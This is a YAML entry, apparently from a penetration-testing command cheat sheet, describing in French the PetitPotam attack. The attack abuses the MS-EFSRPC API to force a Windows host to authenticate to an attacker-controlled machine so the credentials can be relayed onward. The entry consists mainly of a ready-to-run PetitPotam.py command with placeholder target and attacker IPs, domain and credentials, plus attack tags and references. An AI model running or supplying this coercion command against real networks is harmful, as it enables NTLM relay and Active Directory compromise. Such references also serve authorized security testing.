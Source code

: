 ```yaml
---
description: |
  PetitPotam exploite l'API MS-EFSRPC pour se connecter à un hôte Windows, détourner la session d'authentification et déclencher une authentification de l'hôte cible vers un hôte contrôlé par l'attaquant (généralement un serveur SMB ou HTTP). Cette authentification capturée peut ensuite être relayée pour authentifier d'autres hôtes et effectuer d'autres attaques. Plus d'informations dans ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 PetitPotam.py -d test.local -u john -p password123 10.10.10.2 10.10.10.1
items:
  - Password
  - Username
services:
  - RPC
  - NTLM
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/topotam/PetitPotam
  - https://www.truesec.com/hub/blog/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory
---
```

